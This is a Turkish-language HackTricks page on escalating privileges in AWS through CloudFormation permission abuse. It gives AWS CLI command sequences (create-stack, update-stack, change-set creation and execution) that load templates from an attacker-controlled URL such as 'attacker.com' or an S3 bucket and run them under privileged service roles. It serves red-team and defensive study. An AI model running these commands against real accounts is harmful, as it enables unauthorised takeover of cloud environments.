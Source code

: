 # AWS - Cloudformation Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## cloudformation

Cloudformation hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Bu izinlere sahip bir saldırgan, **belirtilen bir rolün izinleri altında eylemler gerçekleştirmek için** kendi sunucusunda barındırılan özel bir şablon ile bir **CloudFormation yığını** oluşturarak **yetkileri artırabilir:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Aşağıdaki sayfada **`cloudformation:DescribeStacks`** ek izni ile bir **istismar örneği** bulacaksınız:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Bu durumda, **mevcut bir cloudformation yığınını** güncelleyerek ve önceki senaryodaki gibi ayrıcalıkları artırarak kötüye kullanabilirsiniz:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Bu izne sahipseniz ancak **hiç `iam:PassRole` yoksa**, yine de **kullanılan yığınları güncelleyebilir** ve **zaten eklenmiş IAM Rolleri** kötüye kullanabilirsiniz. Sömürü örneği için önceki bölüme bakın (güncellemeye herhangi bir rol belirtmeyin).

`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Zaten eklenmiş cloudformation hizmet rolüne privesc.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bir rolü **geçirme ve bir ChangeSet oluşturma & yürütme** izinlerine sahip bir saldırgan, **yeni bir cloudformation yığını oluşturup/güncelleyebilir ve cloudformation hizmet rollerini** CreateStack veya UpdateStack ile olduğu gibi kötüye kullanabilir.

Aşağıdaki sömürü, **ChangeSet izinlerini** kullanarak bir yığın oluşturmanın **bir varyasyonudur**[ **CreateStack bir**](./#iam-passrole-cloudformation-createstack).
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `ChangeSet` izinleri vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** cloudformation hizmet rollerine privesc.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bu, **IAM rollerini** geçmeden önceki yöntem gibidir, bu nedenle sadece **zaten eklenmiş olanları kötüye kullanabilirsiniz**, sadece parametreyi değiştirin:
```
--change-set-type UPDATE
```
**Olası Etki:** Zaten ekli olan cloudformation hizmet rolüne privesc.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Bir saldırgan, bu izinleri kötüye kullanarak StackSet'ler oluşturup/güncelleyerek keyfi cloudformation rollerini kötüye kullanabilir.

**Olası Etki:** Cloudformation hizmet rollerine privesc.

### `cloudformation:UpdateStackSet`

Bir saldırgan, passRole izni olmadan bu izni kötüye kullanarak StackSet'leri güncelleyebilir ve ekli cloudformation rollerini kötüye kullanabilir.

**Olası Etki:** Ekli cloudformation rollerine privesc.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
